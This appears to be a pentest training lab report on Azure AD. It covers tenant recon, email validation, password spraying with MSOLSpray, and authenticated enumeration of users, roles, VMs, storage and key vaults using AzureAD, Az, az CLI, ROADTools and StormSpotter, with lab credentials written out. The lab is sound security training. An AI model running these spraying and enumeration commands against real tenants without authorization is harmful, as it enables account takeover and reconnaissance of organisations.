




# Azure AD Pentest - Lab Report

- [Azure AD Pentest - Lab Report](#azure-ad-pentest---lab-report)
  - [Objective 1: Basic Recon](#objective-1-basic-recon)
    - [Is the organization using Azure AD?](#is-the-organization-using-azure-ad)
    - [ID of Tenant](#id-of-tenant)
    - [Validate email IDs](#validate-email-ids)
    - [Azure Services used by the organization](#azure-services-used-by-the-organization)
  - [Objective 2: Initial Access](#objective-2-initial-access)
    - [Questions](#questions)
    - [Brute force](#brute-force)
    - [Enumerate Users / Groups / Devices / Directory Roles / Enterprise Applications on Azure Portal](#enumerate-users--groups--devices--directory-roles--enterprise-applications-on-azure-portal)
  - [Objective 3: Authenticated Enumerations using AzureAD Module](#objective-3-authenticated-enumerations-using-azuread-module)
    - [Users](#users)
    - [Groups](#groups)
    - [Devices](#devices)
    - [Directory Role Global Administrator](#directory-role-global-administrator)
    - [All custom directory roles (Azure Preview)](#all-custom-directory-roles-azure-preview)
    - [Enterprise Applications](#enterprise-applications)
  - [Objective 4: Authenticated Enumeration using Az PowerShell](#objective-4-authenticated-enumeration-using-az-powershell)
    - [All resources visible to the user](#all-resources-visible-to-the-user)
    - [All Azure roles assigned to the user](#all-azure-roles-assigned-to-the-user)
    - [Virtual Machines](#virtual-machines)
    - [App Services](#app-services)
    - [Function Apps](#function-apps)
    - [Storage Accounts](#storage-accounts)
    - [Key Vaults](#key-vaults)
  - [Objective 5: Authenticated Enumeration using Azure CLI](#objective-5-authenticated-enumeration-using-azure-cli)
    - [Virtual Machines](#virtual-machines-1)
    - [App Services](#app-services-1)
    - [Function Apps](#function-apps-1)
    - [Storage Accounts](#storage-accounts-1)
    - [Key Vaults](#key-vaults-1)
  - [Objective 6: Authenticated Enumeration - ROADTool](#objective-6-authenticated-enumeration---roadtool)
  - [Objective 7: Authenticated Enumeration - StormSpotter](#objective-7-authenticated-enumeration---stormspotter)

---

## Objective 1: Basic Recon

**Questions**

Gather the following information about the defcorphq organization:

- Is the organization using Azure AD? 
- ID of Tenant  
- Validate email IDs  
- Azure Services used by the organization

<br/>

**Answers**

### Is the organization using Azure AD?

To verify if the organization is using Azure AD, we can try to see if an Azure Tenant related to the company exists using the keyword `defcorphq`:

```
https://login.microsoftonline.com/getuserrealm.srf?login=root@defcorphq.onmicrosoft.com&xml=1
```

  

This confirms that the organization is in fact using Azure AD.

<br/>

We can also use AADInternals tool to enumerate:

```
Import-Module C:\AzAD\Tools\AADInternals\AADInternals.psd1
Get-AADIntLoginInformation -UserName root@defcorphq.onmicrosoft.com
```

  


<br/>

### ID of Tenant

To obtain the ID of the Tenant:

```
https://login.microsoftonline.com/defcorphq.onmicrosoft.com/.well-known/openid-configuration
```

  

The tenant ID is `2d50cb29-5f7b-48a4-87ce-fe75a941adb6`

<br/>

We can also use AADInternals tool:

```
Import-Module C:\AzAD\Tools\AADInternals\AADInternals.psd1
Get-AADIntTenantID -Domain defcorphq.onmicrosoft.com
```

  


<br/>

### Validate email IDs

To enumerate valid email IDs, first we need a list of emails. For example:

  

Then we can use **o365creeper** to check if they are valid:

```
C:\Python27\python.exe C:\AzAD\Tools\o365creeper\o365creeper.py -f C:\AzAD\Tools\emails.txt -o C:\AzAD\Tools\validemails.txt
```

  

<br/>

### Azure Services used by the organization

To enumerate Azure Services used by the organization, we can use **MicroBurst**:

```
Import-Module C:\AzAD\Tools\MicroBurst\MicroBurst.psm1 -Verbose
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

  

- Email (defcorphq.mail.protection.outlook.com)
- Microsoft Hosted Domain (defcorphq.onmicrosoft.com)
- SharePoint (defcorphq.sharepoint.com / defcorphq-my.sharepoint.com)

<br/>

---

## Objective 2: Initial Access

### Questions

- Brute-force one of the users that we enumerated from the defcorphq tenant.
- Enumerate the following for the defcorphq tenant using Azure Portal: 
  - Users
  - Groups
  - Devices
  - Directory Roles
  - Enterprise Applications

<br/>

### Brute force

With a valid email list obtained in Objective 1, we can use `MSOLSpray` to perform a password spray:

```
. C:\AzAD\Tools\MSOLSpray\MSOLSPray.ps1

Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt -Password SuperVeryEasytoGuessPassword@1234 -Verbose
```

  

As shown, we can access the Azure with the following credential:

- `test@defcorphq.onmicrosoft.com` / `SuperVeryEasytoGuessPassword@1234`

<br/>

### Enumerate Users / Groups / Devices / Directory Roles / Enterprise Applications on Azure Portal

First login with the found credentials:

- https://portal.azure.com

  

<br/>

To view users:

  

  

<br/>

To view groups:

  

  

<br/>

To view Devices:

  

  

<br/>

To view directory roles:

  

  

<br/>

To view enterprise applications:

  

  

<br/>

---

## Objective 3: Authenticated Enumerations using AzureAD Module

Enumerate the following for the defcorphq tenant using AzureAD PowerShell module

- Users
- Groups
- Devices
- Directory Role Global Administrator
- All custom directory roles (Azure Preview)
- Enterprise Applications

<br/>

### Users

First import AzureAD module:

```
Import-Module C:\AzAD\Tools\AzureAD\AzureAD.psd1; $passwd = ConvertTo-SecureString "SuperVeryEasytoGuessPassword@1234" -AsPlainText -Force ; $creds = New-Object System.Management.Automation.PSCredential("test@defcorphq.onmicrosoft.com", $passwd) ; Connect-AzureAD -Credential $creds
```

  


<br/>

To enumerate users:

```
Get-AzureADUser -All $true
```

  

<br/>

### Groups

To enuemrate Groups:

```
Get-AzureADGroup -All $true
```

  

<br/>

### Devices

To enumerate Devices:

```
Get-AzureADDevice -All $true
```

  

<br/>

### Directory Role Global Administrator

To enumerate users with Global Administrator role:

```
Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
```

  

<br/>

### All custom directory roles (Azure Preview)

To list custom roles, **AzureADPreview** module can be used:

```
Import-Module C:\AzAD\Tools\AzureADPreview\AzureADPreview.psd1; $passwd = ConvertTo-SecureString "SuperVeryEasytoGuessPassword@1234" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd); Connect-AzureAD -Credential $creds

Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName
```

  

<br/>

### Enterprise Applications

To enuemrate enterprise applications (Note this is **Service Principal but not App!**):

```
Get-AzureADServicePrincipal -All $true
```

  


<br/>

---

## Objective 4: Authenticated Enumeration using Az PowerShell

**Question**

Enumerate the following for the defcorphq tenant using Az PowerShell module using the credentials of `test@defcorphq.onmicrosoft.com` user:
- All resources visible to the user 
- All Azure roles assigned to the user 
- Virtual Machines 
- App Services 
- Function Apps 
- Storage Accounts
- Key Vaults

<br/>

**Answer**

### All resources visible to the user 

First authenticate with Azure:

```
$passwd = ConvertTo-SecureString "SuperVeryEasytoGuessPassword@1234" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential("test@defcorphq.onmicrosoft.com", $passwd); Connect-AzAccount -Credential $creds
```

  

<br/>

To enumerate all resources visible to the current user:

```
Get-AzResource | Select Name, ResourceGroupName, ResourceType
```

  

<br/>

### All Azure roles assigned to the user

To enuemrate the roles assigned to the current user:

```
Get-AzRoleAssignment -SignInName test@defcorphq.onmicrosoft.com | ft DisplayName, RoleDefinitionName, ObjectType, CanDelegate
```

  

<br/>

### Virtual Machines

To enuemrate VM where the current user has at least READ access:

```
Get-AzVM | fl *
```

  

<br/>

### App Services 

Note that **App Services** refers to **web hosting service**.

```
Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"} | ft Name, HostNames, DefaultHostName, Kind, Type
```

  

<br/>

### Function Apps

To enuemerate Function Apps:

```
Get-AzFunctionApp | ft Name, HostNames, DefaultHostName, Kind, Type
```

  

<br/>

### Storage Accounts

To enuemrate storage accounts:

```
Get-AzStorageAccount | fl *
```

  

<br/>

### Key Vaults

To enumerate key vaults:

```
Get-AzKeyVault | fl *
```

  

<br/>

---

## Objective 5: Authenticated Enumeration using Azure CLI

**Questions**

Enumerate the following for the defcorphq tenant using az cli using the credentials of `test@defcorphq.onmicrosoft.com` user:

- Virtual Machines
- App Services
- Function Apps
- Storage Accounts
- Key Vaults

<br/>

**Answers**

### Virtual Machines

First authenticate with the compromised credential:

```
az login -u test@defcorphq.onmicrosoft.com -p SuperVeryEasytoGuessPassword@1234 --allow-no-subscriptions
```

  


<br/>

To list all VMs:

```
az vm list --query "[].name"
```

  

<br/>

### App Services

To list app services (webapp):

```
az webapp list --query "[].hostNames"
```

  

<br/>

### Function Apps

```
az functionapp list --query "[].hostNames"
```

  

<br/>

### Storage Accounts

```
az storage account list
```

### Key Vaults

```
az key vault list
```

<br/>

---

## Objective 6: Authenticated Enumeration - ROADTool

**Questions**

Enumerate the following for the defcorphq tenant using ROADTools with the credentials of test@defcorphq.onmicrosoft.com user:

1. Check if the 'Operations' Group is allowed to use Finance Management System app
2. Permissions that AdminAppSimulation has for Mark D Walden

<br/>

**Answer**

First use ROADTools to authenticate with Azure AD:

```
cd C:\AzAD\Tools\ROADTools; pipenv shell; 

roadrecon auth -u test@defcorphq.onmicrosoft.com -p SuperVeryEasytoGuessPassword@1234
```

  

<br/>

Then gather information:

```
roadrecon gather
```

  


<br/>

Run ROADTools GUI:

```
roadrecon gui
```

  


<br/>

  

<br/>

Navigate to `Applications roles` and filter out `Operations`, it is found that `Operations` has access to the application `Finance Mangement System`:

  

<br/>

To check the permissions that AdminAppSimulation has for Mark D Walden, navigate to `OAuth2 Permissions` and filter out `AdminAppSimulation`:

  

<br/>

---

## Objective 7: Authenticated Enumeration - StormSpotter

**Question**

Enumerate the following for the defcorphq tenant using StormSpotter with the credentials of test@defcorphq.onmicrosoft.com user:
- Show All RBAC Relationships

<br/>

**Answer**

First start the backend service:

```
cd C:\AzAD\Tools\stormspotter\backend\; pipenv shell 

python ssbackend.pyz
```

  

<br/>

In a new shell, start the frontend webserver:

```
cd C:\AzAD\Tools\stormspotter\frontend\dist\spa\; quasar.cmd serve -p 9091 --history
```

  

<br/>

Use Stormcollector to collect the data:

```
cd C:\AzAD\Tools\stormspotter\stormcollector\; pipenv shell

az login -u test@defcorphq.onmicrosoft.com -p SuperVeryEasytoGuessPassword@1234; python C:\AzAD\Tools\stormspotter\stormcollector\sscollector.pyz cli
```

  

<br/>

Then browse http://localhost:9091 and user the credential `neo4j` / `BloodHound`:

  

<br/>

Upload the collected data:

  

<br/>

Use the query `Show all RBAC Relationships`:

  

<br/>

---

